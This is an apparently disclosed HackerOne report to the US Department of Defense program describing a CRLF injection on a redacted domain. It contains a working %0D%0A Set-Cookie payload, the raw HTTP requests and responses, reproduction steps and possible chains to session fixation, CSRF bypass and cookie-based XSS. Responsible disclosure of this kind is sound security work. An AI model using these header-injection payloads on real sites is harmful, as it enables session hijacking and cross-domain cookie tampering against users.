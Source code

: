 # CRLF Injection on ███████

## Report Details
- **Report ID**: 245485
- **URL**: https://hackerone.com/reports/245485
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-07-03T09:53:59.590Z
- **Disclosed**: 2019-12-02T19:01:30.276Z

## Reporter
- **Username**: twicedi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
The web application hosted on the "█████" domain is affected by a carriage return line feeds (CRLF) injection vulnerability that could be used in combination with others. This issue could allow XSS via Cookie, bypass Double Submit Cookie csrf protection or Session Fixation on .█████████ domains web apps.

**Description:**
A CRLF Injection attack occurs when an attacker manages to submit a CRLF into an application. 
These two special characters represent the End of Line (EOL) marker for many internet protocols, including HTTP. Web applications typically split headers based on where the CRLF character sequence is found. Therefore, if a malicious user is able to inject their own CRLF sequence into an HTTP stream, they gain control over the contents of the HTTP response.
In this case this is could be done by modifying an HTTP request directed to the "███" adding, for example, the following payload:

> %0D%0ASet-Cookie:test2=test;domain=.████

With the preceding payload, an attacker is going to set, on the victim's browser that is visiting the malicious URL, a new cookie with an arbitrary value. Note that the scope of this cookie include all ".█████" subdomains, so this cookie is going to be sent, by the browser, to all the subdomains.

URL: http://████/advanced%0D%0ASet-Cookie:test2=test;domain=.█████

Generated request:
```
GET /advanced%0D%0ASet-Cookie:test2=test;domain=.████ HTTP/1.1
Host: ██████████
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
Upgrade-Insecure-Requests: 1
```

Response (note the "Set-Cookie" header):
```
HTTP/1.1 302 Found
Date: Mon, 03 Jul 2017 08:55:53 GMT
Server: Apache
Location: http://www.█████████:80/advanced
Content-Length: 267
Content-Type: text/html; charset=iso-8859-1
my_cache-control: no-cache
my_pragma: no-cache
Connection: close
Set-Cookie: test2=test;domain=.█████████

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="http://www.███:80/advanced
Set-Cookie:test2=test;domain=.█████████">here</a>.</p>
</body></html>
```

At this poin the new cookie is set on the browser, and it is going to be sent in every request, as showed in the following examples.

Request to the same subdomain ( http://www.███████/advanced ):
```
GET /advanced HTTP/1.1
Host: www.██████████
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=F48C86E41595456012C5228F2A807BCC; test2=test
Connection: close
```

Request to another █████████ subdomain ( http://www.█████ ):
```
GET / HTTP/1.1
Host: www.█████
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: test2=test
Connection: close
Upgrade-Insecure-Requests: 1
```

## Impact
This vulnerability could be chained with other issues allowing for example:
1) XSS via Cookie: for example in case in which the value of the cookie is reflected somewhere without output encoding
2) bypass Double Submit Cookie CSRF protection: in case in which an application use this solution as CSRF protection
3) Session Fixation: if an application is not renewing the session cookie (for example JSESSIONID) after the login.
Note that, in the preceding example, it is showed how an attacker could set an arbirtary cookie valid for all the .███████ subdomains so, after the cookie is set, the exploitation could be carried on other subdomains.

## Step-by-step Reproduction Instructions

1. Open the following URL with Firefox: http://██████/advanced%0D%0ASet-Cookie:test2=test;domain=.██████████
2. A new cookie is going to be set
3. This cookie is going to be sent on all the .█████████ subdomains

## Product, Version, and Configuration (If applicable)
The exploitability of the issue has been tested with the latest version (at the time of writing) of the following browsers:

> Firefox (v54.0)
> Microsoft Edge

## Suggested Mitigation/Remediation Actions
To mitigate this issue, the application should strip out any input which contains the **%0D%0A** URL encoded characters.

I'm available for further clarification,

Best,
Davide

## Attachments
No attachments
